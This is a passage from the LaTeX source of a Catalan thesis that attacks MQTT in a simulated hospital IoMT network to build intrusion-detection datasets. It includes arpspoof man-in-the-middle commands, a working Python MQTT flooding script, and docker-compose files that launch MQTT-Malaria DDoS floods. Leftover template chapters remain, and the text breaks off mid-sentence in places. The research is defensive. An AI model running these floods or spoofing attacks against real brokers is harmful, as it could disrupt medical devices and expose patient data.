    
\includegraphics[width=1\textwidth]{img/DoSclientID.png}
    \caption{Esquema del trànsit generat per l'atac de denegació de servei MQTT Publish amb modificació del paràmetre Client ID.}
    \label{fig:DoSclientId}
  \end{figure}

El darrer mètode per a realitzar l'atac de denegació de servei distribuït amb Client ID diferents és mitjançant arquitectures de xarxa personalitzades amb Docker, concretament una arquitecture MACVLAN, on cada contenidor té una adreça IP diferent \ref{fig:DockerNetworks}. En aquesta versió de l'atac DDoS, generem un gran nombre de contenidors Docker i en cadascún despleguem un client MQTT. Aquest clients estableixen una connexió presistent amb el broker (amb Client ID diferents entre ells) i realitzen l'ataca de denegació de servei com els anteriors. Aquesta estratègia té una complexitat mès elevada però permet generar un gran nombre de connexións diferents però mantenint la presistència. D'aquesta manera, es s'aconsegueix un efecte similar a un DDoS amb diversos clients reals però utilitzant eines de virtualització com Docker.


  \begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{img/DDoS.png}
    \caption{Esquema del trànsit generat per l'atac de denegació de servei Distribuït. El DDoS Traffic es refereix a trànsit generat amb una estructura similar al de la figura \ref{fig:DoSsimple}.}
    \label{fig:DDoS}
  \end{figure}

Un cop elaborat l'atac, he passat a utilitzar eines ja existents com ara MQTT-PWN (\ref{sec:MQTTPWN}) i MQTT Malaria que ajuden a obtenir una eficiència més elevada al realitzar atacs DoS amb un codi més optimitzat. Aquestes tenen un funcionament similar al script de Python utilitzat anteriorment.

També és molt important escollir el valor de QoS adequat per a l'atac, l'ús de \textbf{QoS 0} permet enviar missatges sense esperar confirmació, per tant, permet saturar la xarxa amb mès facilitat, però, amb QoS 1, el processat que ha de realitzar el broker per a cada missatge és mès elevat i, per tant, millra l'eficiència en quant a saturació del broker. Si s'utilitza QoS 2, aquest processat és encara més elevat i ja comporta una diferència molt notable respecte a QoS 0. Per tant, QoS 2 es la opció més recomananada per a realitzar l'atac de denegació de servei. 

\subsection{Low-Rate DDoS}

Tal i com s'explica a l'article \cite{lowrateDDoSexp}, els atacs de denegació de servei distribuïts (DDoS) poden ser realitzats amb un trànsit baix, és a dir, enviant un nombre reduït de missatges per segon. Aquest tipus d'atac pot ser més difícil de detectar i pot passar desapercebut per les mesures de seguretat del broker MQTT. Per a compensar la baixa taxa de missatges, s'utilitza un gran nombre de contenidors diferents, augmentant el nombre de clients.

\section{Atacs de suplantació d'identitat}

En aquest apartat s'expliquen atacs de suplantació d'identitat que poden ser realitzats contra una xarxa MQTT. Aquests atacs tenen com a objectiu suplantar la identitat d'un client legítim per tal d'enviar missatges al broker MQTT o rebre'n, fent que el broker no pugui distingir entre clients legítims i clients maliciosos. També el fet de modificar informació legítima a través de sistemes de Man In The Middle. 

Primer de tot, s'ha estudiat el funcionament d'atacs de ARP Spoofing, per entendre'ls és necessari conèixer el protocol ARP en profunditat.

El Protocol de Resolució d'Adreces (ARP) és un mecanisme fonamental en xarxes IP que permet als dispositius d'una xarxa local associar adreces IP amb adreces MAC corresponents. Quan un dispositiu necessita enviar un paquet a una adreça IP dins de la seva mateixa xarxa local, emet una petició ARP a través de difusió (broadcast), sol·licitant quina adreça MAC està associada a aquella IP. El dispositiu propietari d’aquesta adreça IP respon amb la seva adreça MAC, i aquesta informació queda temporalment registrada a la taula ARP del dispositiu que ha fet la sol·licitud. Tot i la seva simplicitat i eficiència, ARP no incorpora cap mecanisme d'autenticació, la qual cosa el fa vulnerable a diversos tipus d’atacs, entre els quals destaca l’ARP spoofing.

L’ARP spoofing, també conegut com a ARP poisoning, és una tècnica d’atac que aprofita la manca de verificació en el protocol ARP per introduir entrades falses en les taules ARP dels dispositius de la xarxa. L’objectiu principal és enganyar aquests dispositius perquè associïn una adreça IP legítima (habitualment la del gateway o la d’una víctima específica) amb l’adreça MAC de l’atacant. Això permet a l’atacant interceptar el tràfic que, en condicions normals, es dirigiria directament al gateway o a un altre dispositiu. D’aquesta manera, es crea una situació de tipus Man-in-the-Middle (MitM), en què l’atacant pot monitoritzar, modificar o redirigir el tràfic entre dispositius.


El funcionament bàsic d’un atac ARP spoofing es pot resumir en els passos següents:

\begin{itemize}
    \item L’atacant envia respostes ARP falsificades a la víctima, fent-se passar pel gateway de la xarxa.
    \item Simultàniament, envia respostes ARP falsificades al gateway, fent-se passar per la víctima.
    \item Tant la víctima com el gateway actualitzen les seves taules ARP amb les associacions falses proporcionades per l’atacant.
    \item A partir d’aquest moment, el tràfic entre ambdós dispositius es redirigeix a través de l’atacant, que pot actuar com a passarel·la transparent (forwarder) o bé manipular els paquets segons el seu objectiu.
\end{itemize}

En aquest treball, inicialment s'ha utilitzat l'eina arpspoof del paquet dsniff per realitzar l'atac ARP spoofing. Aquesta eina permet enviar respostes ARP falsificades a la víctima i el broker o el gateway, fent que ambdós dispositius actualitzin les seves taules ARP amb les associacions falses proporcionades per l'atacant tal i com s'ha explicat anteriorment.

Un exemple d'execució utilitzada on client real víctima té l'adreça IP 192.168.0.41 i és:

\begin{tcblisting}{colback=white, colframe=black!70, listing only}
    arpspoof -i wlp42s0 192.168.0.41
\end{tcblisting}

Amb aquesta execució aconseguim que el missatges que envia el broker MQTT al client real es redirigeixin a l'atacan. D'aquesta manera, si el client està subscrit a un tòpic concret, podem fer que l'atacant rebi aquests missatges, com per exemple podrien ser mesures de ritme cardíac o pressió sanguínia que deixen d'arribar a un monitoritzador mèdic. 

Però, aquest atac és fàcilment detectable. Per això, cal implementar un atac bidireccional, fent que tant el broker com el client enviin els missatges a l'adreça MAC de l'atacant, generant una situació de MITM. Ho podem aconseguir amb una execució similar a la següent on s'afageix l'adreça IP del broker MQTT 192.168.0.40 amb el paràmetre -r:

\begin{tcblisting}{colback=white, colframe=black!70, listing only}
    arpspoof -i wlp42s0 -t 192.168.0.41 -r 192.168.0.40
\end{tcblisting}

Per al perfeccionament de l'atac APR Spoofing, he utilitzat l'eina better

\chapter{Elaboració d'una eina automatitzada per a la generació d'atacs en entorns MQTT}
\label{sec:tool}
En aquest apartat es descriu l'eina automatitzada que s'ha desenvolupat per a la generació de datasets de trànsit MQTT que recullen diversos atacs a la infraestructura estudiada. Aquesta eina permet la creació de dades de trànsit de manera eficient i escalable, facilitant així la investigació i el desenvolupament de models de detecció d'intrusions en entorns IoMT.

Aquesta eina està programada en bash (codi: \ref{lst:tool}), totes les seves funcionalitats són implementades mitjançant contenidors Docker per tal que pugui ser desplegada en qualsevol entorn. Aquesta permet tant el desplegament d'una infraestructura simulada de clients MQTT com la generació dels diferents atacs estudiats en aquest treball de forma automatitzada.

L'eina consta de diversos apartats, que amb la utilitat "getopts" seleccionem els diversos atacs que volem generar mitjançant flags.

El pas inicial és el desplegament d'un contenidor Docker amb imatge base zeek/zeek (basada en linux) \cite{zeekimg} anomenat "sniffer", que desplega un servei de \textit{tcpdump} escoltant la interfície de xarxa del host especificada per l'usuari. Aquest contenidor captura el trànsit benigne i maliciós generat pels atacs i els clients, que desa en un fitxer en format pcap per a ser analitzat posteriorment.

Seguidament, es despleguen els diferents atacs. El primer d'ells és la realització dels atacs de reconeixement de la infraestructura vistos a l'apartat \ref{sec:Recon}. Primer de tot desplega un contenidor Docker amb la imatge base Kali-Linux-Last-Relesase anomenat "escaner" que realitza els atacs enfocats a indentificar la IP del broker que es guarda en una variable d'entorn, seguit dels atacs de descobriment de clients MQTT que guarda en els un arxiu txt. Aquest contendior, finalment, realitza els atacs de descobriment de la informació del broker amb les eines MQTTSA i scripts NSE d'NMAP.

El següent atac implementat és l'atac de denegació de servei distribuït (DDoS) explicat a \ref{fig:DDoS}. Per a aquest atac, es necessiten trobar les IPs lliures de la xarxa per a desplegar clients MQTT maliciosos. Per això, mitjançant l'ús de la utilitat "prips" que ens permet fer càlculs de xarxa i utilitzant la llista de clients trobada en els atacs de reconeixement, es generen una llista de les següents IPs lliures necessàries (a partir de la 100 per mitigar conflictes amb futures assignacións de IP amb DHCP), que es guarden en variables d'entorn. Amb aquestes IPs es desplega mitjançant l'orquestrador "Docker Compose" un seguit de contenidors Docker basats la imatge de kalilinux/kali-last-release que mitjançant l'eina MQTT-Malaria realitzen l'atac de denegació de servei distribuït a la IP del broker trobada i enregistrada anteriorment. Aquest atac es realitza amb un nombre de clients configurables per l'usuari, que s'especifica mitjançant un paràmetre de l'eina.

També, s'implementa l'atac de Man In The Middle (MITM) explicat a \ref{sec:MITM}. Per a això, es desplega un contenidor Docker amb la imatge base Kalilinux/Kali-Last-Release anomenat "spoofer" que realitza l'atac d'ARP spoofing bidireccional entre el broker trobat i un client seleccionat mitjançant l'eina arpspoof. Paral·lelament, es desplega un altre contenidor Docker similar amb les configuracions de ip forwarding i iptables necessàries anomenat "mitm" que executa l'eina mitmproxy, que actua fa que el host atacant actuï com a proxy transparent entre els dos dispositius atacats.

Un cop acabada l'execució i es decideix al finalització per part de l'usuari, l'eina atura tots els contenidors Docker desplegats i fa una avaluació del trànsit generat mitjançant l'IDS zeek ( \ref{sec:Zeek} ). Si bé aquest apartat no és necessari per a la generació del dataset, és d'utilitat per a poder analitzar el funcionament dels atacs i la seva efectivitat, així com per a identificar possibles millores en la implementació d'aquests.

  \begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{img/tool.png}
    \caption{Sortida d'execució de l'eina automatitzada. A l'esquerra es pot veure una part de la sortida dels atacs de reconeixement mentre que a la dreta la sortida dels atacs de DDoS.}
    \label{fig:tool}
  \end{figure}


\
%%%% RESULTS %%%%
% Results chapter. Please replace "results.tex" entirely with your own content written in the desired language.
%%%% PLEASE REPLACE ENTIRELY WITH YOUR OWN CONTENT %%%%
\ifcase\doclanguage\or
  \chapter{Resultats}
  Aquest capítol ha d'incloure l'anàlisi de les vostres dades i els resultats obtinguts. A més, incloeu-hi taules, figures i citacions pertinents per donar suport als vostres resultats i interpretacions. Aquí teniu una llista suggerida de temes a tractar:
  
    \section{Experiments i proves}
    Descriviu els experiments realitzats per provar el rendiment del vostre projecte. Expliqueu com heu recopilat i processat les dades.
    
    \section{Visualització de les dades}
    Creeu representacions visuals dels resultats (per exemple, gràfics de dispersió, diagrames de barres). Interpreteu les visualitzacions i relacioneu-les amb les preguntes de recerca.
    
    \section{Limitacions}
    Reconeixeu qualsevol limitació en les dades o l'anàlisi. Expliqueu com aquestes limitacions podrien haver afectat els resultats.

\or
  \chapter{Resultados}
  Este capítulo debe incluir el análisis de tus datos y los resultados obtenidos. Además, incluye tablas, figuras y citas relevantes para respaldar tus resultados e interpretaciones. Aquí tienes una lista sugerida de temas a tratar:
  
    \section{Experimentos y pruebas}
    Describe los experimentos realizados para probar el rendimiento de tu proyecto. Explica cómo has recopilado y procesado los datos.
    
    \section{Visualización de datos}
    Crea representaciones visuales de los resultados (por ejemplo, gráficos de dispersión, diagramas de barras). Interpreta las visualizaciones y relaciónalas con las preguntas de investigación.
    
    \section{Limitaciones}
    Reconoce cualquier limitación en los datos o el análisis. Explica cómo estas limitaciones podrían haber afectado los resultados.
  
\else
  \chapter{Results}
  This chapter should encompass your data analysis and findings. Additionally, include relevant tables, figures, and citations to support your results and interpretations. Here is a suggested list of topics to discuss:
  
    \section{Experiments and Tests}
    Describe the experiments conducted to assess the performance of your project. Explain how you collected and processed the data.
    
    \section{Data Visualization}
    Create visual representations of the results (e.g., scatter plots, bar charts). Interpret the visualizations and relate them to the research questions.
    
    \section{Limitations}
    Acknowledge any limitations in the data or analysis. Explain how these limitations may have influenced the results.

\fi

%
%%%% SECTION3 %%%
%\newpage
%%\vspace*{2cm}
%\section{Section 3}
%\label{sec:sec3}
%
%\lipsum[4] \ac{EU} is the European Union. \lipsum[5]
%\lipsum[6] \ac{ETSETB} is Telecos. \lipsum[7]
%
%\subsection{Subsection}
%\label{sec:subsec3.1}
%The book \cite{latexcompanion} \lipsum[15]
%
%\include{codi_tempdistrib}
%
%%%% SECTION4 %%%
%\input{section4}
%
%%%% SECTION5 %%%
%\newpage
%%\vspace*{2cm}
%\section{Section 5}
%\label{sec:sect5}
%\lipsum[4]
%
%\subsection{Overview}
%\label{subsec:sect5Overview}
%\lipsum[10]
%Visite the Knuth repository \cite{knuthwebsite}.
%
%%%% TESTING %%%
%\clearpage
%%\vspace*{2cm}
%\section{Experiments and results}
%\label{sec:tests}
%\lipsum[9]
%



%%%% BUDGET %%%%
% Budget chapter. Please replace "budget.tex" entirely with your own content written in the desired language.
%\input{budget}


%%%% SUSTAINABILITY REPORT %%%%    <<<<<<<<<<<<<<<< NEW !!
% Sustainability chapter. Please replace "sustainability.tex" entirely with your own content written in the desired language.
%%%% PLEASE REPLACE ENTIRELY WITH YOUR OWN CONTENT %%%%

\ifcase\doclanguage\or
\chapter{Anàlisi de sostenibilitat i implicacions ètiques}
Des del curs 2023-24, la normativa de TFG de l'ETSETB demana la inclusió d'un informe de sostenibilitat a la memòria del treball. Aquesta anàlisi consisteix en una valoració dels impactes ambientals, socials i econòmics, i les possibles implicacions ètiques que ha comportat la realització del TFG. En el cas que el TFG plantegi un producte/servei/sistema/edifici/etc., que podria arribar a implementar-se, l’anàlisi també ha de realitzar-se sobre els impactes que tindria la proposta en la seva execució durant les diferents etapes del seu cicle de vida.

A la plataforma ATENEA trobareu un document separat amb les instruccions detallades de què ha de contenir i com cal confeccionar l'informe de sostenibilitat.

{\bigskip\bfseries {\large IMPORTANT:} Noteu que l'antic capítol de «Pressupost del projecte» ara queda integrat en l'anàlisi de sostenibilitat, concretament en les cel·les «Econòmic/Desenvolupament del TFG» i «Econòmic/Execució del projecte».}

\or
\chapter{Análisis de sostenibilidad e implicaciones éticas}
A partir del curso 2023-24, la normativa de TFG de la ETSETB solicita la inclusión de un informe de sostenibilidad en la memoria del trabajo. Este análisis consiste en una evaluación de los impactos ambientales, sociales y económicos, así como las posibles implicaciones éticas derivadas de la realización del TFG. En el caso de que el TFG plantee un producto/servicio/sistema/edificio, etc., que pudiera llegar a implementarse, el análisis también debe abordar los impactos que la propuesta tendría durante las diferentes etapas de su ciclo de vida.

En la plataforma ATENEA encontrarán un documento aparte con instrucciones detalladas sobre lo que debe contener y cómo elaborar el informe de sostenibilidad.

{\bigskip\bfseries {\large IMPORTANTE:} Tener en cuenta que el antiguo capítulo de «Presupuesto del proyecto» ahora se integra en el análisis de sostenibilidad, específicamente en las celdas «Económico/Desarrollo del TFG» y «Económico/Ejecución del proyecto».}

\else
\chapter{Sustainability Analysis and Ethical Implications}
Starting from the academic year 2023-24, the TFG regulations of ETSETB require the inclusion of a sustainability report in the project's documentation. This analysis involves an assessment of environmental, social, and economic impacts, as well as potential ethical implications resulting from the completion of the TFG. In the case where the TFG involves a product/service/system/building, etc., that could be implemented, the analysis should also address the impacts that the proposal would have during the various stages of its lifecycle.

Detailed instructions on what the sustainability report should contain and how to prepare it can be found on the ATENEA platform.

{\bigskip\bfseries {\large IMPORTANT:} Please note that the previous chapter on "Project Budget" is now integrated into the sustainability analysis, specifically in the cells "Economic Cell/Development of BT" and "Economic Cell/Project Execution".}

\fi


%%%% CONCLUSIONS AND FUTURE WORK %%%%
% Conclusions chapter. Please replace "conclusions.tex" entirely with your own content written in the desired language.
%%%% PLEASE REPLACE ENTIRELY WITH YOUR OWN CONTENT %%%%

\chapter{Conclusions i Línies Futures}

\section{Conclusions}
Aquest treball s’ha centrat en la generació de cibertatacs sobre entorns mèdics basats en dispositius d'internet de les coses, amb l’objectiu d’exposar vulnerabilitats específiques dels sistemes IoMT i aportar una eina que permeti automatitzar la creació de trànsit maliciós per a l’entrenament de sistemes de detecció d’intrusions basats en machine learning. La contribució més significativa del projecte ha estat el disseny i execució controlada d’atacs contra el protocol MQTT i la infraestructura típica d'una habitació d'hospital, amb èmfasi en la simulació realista d’escenaris compromesos, però sobretot en la facilitat amb què aquests atacs poden tenir èxit en absència de proteccions bàsiques.

Un dels resultats més rellevants ha estat la comprovació de com de vulnerable és un sistema MQTT quan no s’ha configurat adequadament. En el cas dels atacs de reconeixement, s'ha pogut veure que aquests dispositius són fàcilent caracteritzables i al tenir recursos limitats, és poc freqüent que disposin de seguretat i protcols robustos. També, respecte als atacs de força bruta per al descobriment de credencials, s’ha evidenciat que molts serveis MQTT operen amb credencials per defecte o sistemes d’autenticació molt febles. Amb eines molt accessibles, l’atacant pot obtenir accés al broker en pocs segons, especialment si aquest no limita intents ni incorpora sistemes de detecció. L’eina automatitzada desenvolupada ha permès realitzar aquestes proves de forma repetida i consistent, posant en relleu la necessitat d’autenticació robusta i de sistemes de bloqueig automàtic.

En els atacs de subscripció a tòpics sensibles, l’absència d’un sistema de control d’accés (ACL) ha permès que l’atacant es subscribís a canals reservats a dispositius mèdics o sistemes de control, interceptant informació potencialment crítica com dades de pacients o ordres de control sobre equipament mèdic. Aquest tipus d’atac es pot executar amb una comanda senzilla si no hi ha restriccions de subscripció, i demostra com un disseny insegur de la jerarquia de tòpics pot posar en risc tot el sistema.

Els atacs de tipus DoS i Low-Rate DoS han estat especialment efectius a l’hora de comprometre la disponibilitat del servei. L’atacant, simulant múltiples clients que publiquen missatges a gran velocitat, ha aconseguit saturar el broker o afectar la latència dels dispositius reals. Aquest escenari ha estat reproduït amb facilitat gràcies a l’eina automatitzada i ha confirmat que, en absència de limitació de connexions o de control del volum de publicació, fins i tot una màquina senzilla pot interrompre completament el servei.

També s’ha provat l’efectivitat dels atacs MITM i ARP spoofing, especialment útils per interceptar o manipular missatges entre dispositius. L’ús del protocol MQTT en text pla (sense xifratge TLS) ha permès veure les dades en brut i fins i tot injectar missatges maliciosos sense ser detectat. Aquest resultat mostra la importància de protegir la comunicació a nivell de transport i d’aplicar mesures de detecció de manipulació dins del protocol mateix.

Tots aquests atacs han estat executats de manera automàtica mitjançant un sistema que permet configurar i llançar escenaris concrets amb mínima intervenció manual. La simplicitat i eficàcia dels atacs reforcen una conclusió fonamental del projecte: moltes xarxes IoMT actuals són vulnerables a ciberatacs amb eines bàsiques, sense necessitat d'accés privilegiat. La superfície d’atac és àmplia, i les barreres de protecció sovint inexistents o mal configurades.

També cal destacar que aquest treball ha contribuït exitosament en la generació de datasets amb trànsit benigne i maliciós, que poden ser utilitzats per entrenar models de detecció d’intrusions. Aquests datasets són fonamentals per a la investigació en seguretat IoMT, ja que permeten desenvolupar i validar sistemes de seguretat més robustos. Com és el cas del projecte del grup de recerca "Information Security Group" dins el qual s'ha dut a terme aquest treball.


\section{Línies Futures}

Pel que fa a les línies futures, una de les prioritats estudiar la configuració de la infraestructura per tal que sigui més segura i donar ues pràctiques recomanades per a evitar els riscos de seguretat estudaits en aquest treball, que poden englobar la incorporació de mètodes d’autenticació forts, xifratge TLS, i una política clara de permisos mitjançant ACLs per restringir l’accés a tòpics sensibles. També es proposa millorar la resiliència del sistema a atacs de denegació de servei, per exemple limitant connexions, aplicant filtres de QoS, o implementant sistemes de detecció precoç.

Una altra direcció rellevant serà ampliar i modularitzar l’eina automatitzada, afegint-hi més tipus d’atacs i i suport per escenaris més diversos, incloent diferents protocols com podrien ser CoAP o HTTP i topologies de xarxa diverses. Aquesta eina pot esdevenir una plataforma comuna per a la generació de trànsit maliciós en entorns IoMT, amb finalitats tant de recerca com docents.

En conclusió, aquest treball ha evidenciat que els sistemes mèdics connectats són especialment vulnerables si no s’implementen mesures de seguretat des del disseny. Els resultats obtinguts demostren que la seguretat en IoMT no pot ser un afegit posterior, sinó un component estructural essencial, i que l’existència d’entorns com el desenvolupat aquí és clau per posar en evidència aquestes mancances i avançar cap a sistemes més segurs.


%%%% BIBLIOGRAPHY %%%%
\nocite{*}               % Forces all entries to be printed, even if not cited
% Bibliography intro
% Supress this macro (or modify its contents to suit your needs).
\defbibnote{bib-intro}{%
\ifcase\doclanguage\or
  El sistema \textit{biblatex} simplifica la gestió de la bibliografia en treballs científics, proporcionant automatització i personalització en el format de les citacions. Això permet a l'autor del document enfocar-se en el contingut sense haver de preocupar-se per l'estil de les referències, estalviant temps i reduint errors.
  
  La base de dades de referències bibliogràfiques és al fitxer «TFG.bib» i és allà on heu d'afegir les vostres referències. Consulteu el manual del \texttt{biblatex}, secció «Database Guide», per conèixer els tipus de referències i camps disponibles.
  
  Podeu modificar (o suprimir) aquesta nota editant la macro \texttt{\textbackslash defbibnote} al fitxer «TFG.tex».
  \par\hfil\rule[3pt]{.5\textwidth}{0.4pt}\hfil\par\or
  El sistema \textit{biblatex} simplifica la gestión de la bibliografía en trabajos científicos, proporcionando automatización y personalización en el formato de las citas. Esto permite al autor del documento enfocarse en el contenido sin tener que preocuparse por el estilo de las referencias, ahorrando tiempo y reduciendo errores.
  
  La base de datos de referencias bibliográficas está en el archivo «TFG.bib» y es allí donde se deben añadir vuestras referencias. Consultar el manual de \texttt{biblatex}, sección «Database Guide», para conocer los tipos de referencias y campos disponibles.
  
  Podéis modificar (o suprimir) esta nota editando la macro \texttt{\textbackslash defbibnote} en el archivo «TFG.tex».
  \par\hfil\rule[3pt]{.5\textwidth}{0.4pt}\hfil\par\else
  The \textit{biblatex} system simplifies the management of the bibliography in scientific works, providing automation and customization in the format of citations. This allows the document's author to focus on the content without having to worry about the style of the references, saving time and reducing errors.
  
  The bibliographic references database is in the file “TFG.bib”, and this is where you should add your references. Consult the \texttt{biblatex} manual, section “Database Guide”, to learn about the available types of references and fields.
  
  You can modify (or delete) this note by editing the \texttt{\textbackslash defbibnote} macro in the file “TFG.tex”.
  \par\hfil\rule[3pt]{.5\textwidth}{0.4pt}\hfil\par\fi%
}
\printbibliography[heading=bibintoc,prenote={bib-intro}]


%%%% ANNEXES %%%%
% All chapters AFTER the \appendix command wil be considered appendices and numbered by letter
\appendix
\chapter{Apèndix}

\begin{lstlisting}[language=yaml, caption={Desplegament de la xarxa totalment simulada}, label=code:exemple]
services:
  broker:
    image: eclipse-mosquitto
    container_name: broker
    privileged: true
    ports:
      - "1883:1883s"
    volumes:
      - /home/joel/Documents/UNI/TFG/broker/mosquitto/config:/mosquitto/config
      - /home/joel/Documents/UNI/TFG/broker/mosquitto/data:/mosquitto/data
      - /home/joel/Documents/UNI/TFG/broker/mosquitto/log:/mosquitto/log
    networks:
      - IoTnet
  client1:
    image: mqttclient
    container_name: client1
    command: bash -c "apt update && sleep infinity"
    privileged: true
    volumes:
      - /home/joel/Documents/UNI/TFG/clients/cl1:/home/
    networks:
      - IoTnet
  client2:
    image: mqttclient
    container_name: client2
    command: bash -c "apt update && sleep infinity"
    privileged: true
    volumes:
      - /home/joel/Documents/UNI/TFG/clients/cl2:/home/
    networks:
      - IoTnet
  atacant:
    image: kalitfg
    container_name: atacant
    command: bash -c "apt update && sleep infinity"
    environment:
      - DISPLAY=\${DISPLAY}
    privileged: true
    volumes:
      - /home/joel/Documents/UNI/TFG/observador:/home/
      - /tmp/.X11-unix:/tmp/.X11-unix
    networks:
      - IoTnet

networks:
  IoTnet:
    driver: bridge

\end{lstlisting}

\begin{lstlisting}[language=Python, caption={Script de Python per a l'atac de Denegació de Servei}, label=lst:DoSScript]
import sys
import paho.mqtt.client as mqtt
import time
from threading import Thread
import argparse

parser = argparse.ArgumentParser(description='MQTT Client')
parser.add_argument('broker', help='MQTT broker address')
                    
broker = parser.parse_args().broker
port = 1883
topic = "mqttTest"
messages_per_run =1000
threads = 1000

counter = 0

def on_connect(client, userdata, flags, rc):
    if rc == 0:
        print("Connected to MQTT broker successfully")
    else:
        print(f"Failed to connect, return code {rc}")

def mqtt_flood():
    global counter
    client = mqtt.Client()
    client.on_connect = on_connect
    client.connect(broker, port, 60)
    client.loop_start()
    try:
        while True:
            for _ in range(messages_per_run):
                counter += 1
                message = f"Payload: {counter % 10 * 1024}"
                client.publish(topic, message, qos=2, retain=True)
                print(f"Sent message: {message}")
            time.sleep(0.1)
    except KeyboardInterrupt:
        print("[-] Canceled by user")
        client.loop_stop()
        client.disconnect()

try:
    print("Starting MQTT Flooder...\n")
    for _ in range(threads):
        t = Thread(target=mqtt_flood)
        t.start()
except KeyboardInterrupt:
    print("[-] Canceled by user")
\end{lstlisting}

\begin{lstlisting}[language=yaml, caption={Desplegament de contenidors per a l'atac DDoS}, label=lst:DDoS]
services:
  client1:
    image: client-mqtt-malaria
    container_name: client1
    privileged: true
    volumes:
      - ./clients/cl1:/home/
    environment:
      - ip_broker=${ip_broker}
    command: bash -c "python2 /home/mqtt-malaria/malaria publish -P 8 -n 10000 -H $${ip_broker} -s 100 -q 2"
    networks:
      IoTnet:
        ipv4_address: ${ip_cl1}

  client2:
    image: client-mqtt-malaria
    container_name: client2
    privileged: true
    volumes:
      - ./clients/cl1:/home/
    environment:
      - ip_broker=${ip_broker}
    command: bash -c "python2 /home/mqtt-malaria/malaria publish -P 8 -n 10000 -H $${ip_broker} -s 100 -q 2"
    networks:
      IoTnet:
        ipv4_address: ${ip_cl2}

networks:
  IoTnet:
    driver: macvlan
    driver_opts:
      parent: ${interface}
    ipam:
      config:
        - subnet: ${net}${mask}
          gateway: ${gw}
\end{lstlisting}

\begin{lstlisting}[language=yaml, caption={Desplegament de contenidors per a l'atac Low-Rate DDoS}, label=lst:LowRateDDoS]
  services:
  client1:
    image: kalilinux/kali-last-release
    container_name: client1
    privileged: true
    volumes:
      - /home/joel/Documents/UNI/TFG/CLIENTS_ENV/clients/cl1:/home/
    command: bash -c "python2 /home/mqtt-malaria/malaria publish -P 1 -n 50 t -H 192.168.0.15 -s 100 -q 2 -c cl1"
    networks:
      IoTnet:
        ipv4_address: 192.168.0.101

  client2:
    image: kalilinux/kali-last-release
    container_name: client2
    privileged: true
    volumes:
      - /home/joel/Documents/UNI/TFG/CLIENTS_ENV/clients/cl1:/home/
    command: bash -c "python2 /home/mqtt-malaria/malaria publish -P 1 -n 50 -t -H 192.168.0.15 -s 100 -q 2 -c cl2"
    networks:
      IoTnet:
        ipv4_address: 192.168.0.102

  client3:
    image: client-mqtt-malaria
    container_name: client3
    privileged: true
    volumes:
      - /home/joel/Documents/UNI/TFG/CLIENTS_ENV/clients/cl1:/home/
    command: bash -c "python2 /home/mqtt-malaria/malaria publish -P 1 -n 50 -t -H 192.168.0.15 -s 100 -q 2 -c cl3"
    networks:
      IoTnet:
        ipv4_address: 192.168.0.103

  client4:
    image: client-mqtt-malaria
    container_name: client4
    privileged: true
    volumes:
      - /home/joel/Documents/UNI/TFG/CLIENTS_ENV/clients/cl1:/home/
    command: bash -c "python2 /home/mqtt-malaria/malaria publish -P 1 -n 50 -H 192.168.0.15 -s 100 -q 2 -c cl4"
    networks:
      IoTnet:
        ipv4_address: 192.168.0.104

  client5:
    image: client-mqtt-malaria
    container_name: client5
    privileged: true
    volumes:
